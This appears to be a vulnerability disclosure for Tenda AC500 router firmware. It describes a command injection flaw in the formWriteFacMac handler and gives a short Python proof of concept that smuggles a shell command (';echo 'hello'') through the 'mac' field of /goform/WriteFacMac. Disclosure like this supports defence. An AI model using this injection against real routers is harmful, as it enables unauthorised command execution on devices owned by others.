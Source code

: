 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail--2470.html

## Affected version

AC500 V2.0.1.9(1307)

## Vulnerability details

The Tenda AC500 V2.0.1.9(1307) firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `v2` parameter and the `mac` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.

![image-20240319225415852](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319225415852.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";echo 'hello'"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320003842782](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320003842782.png)
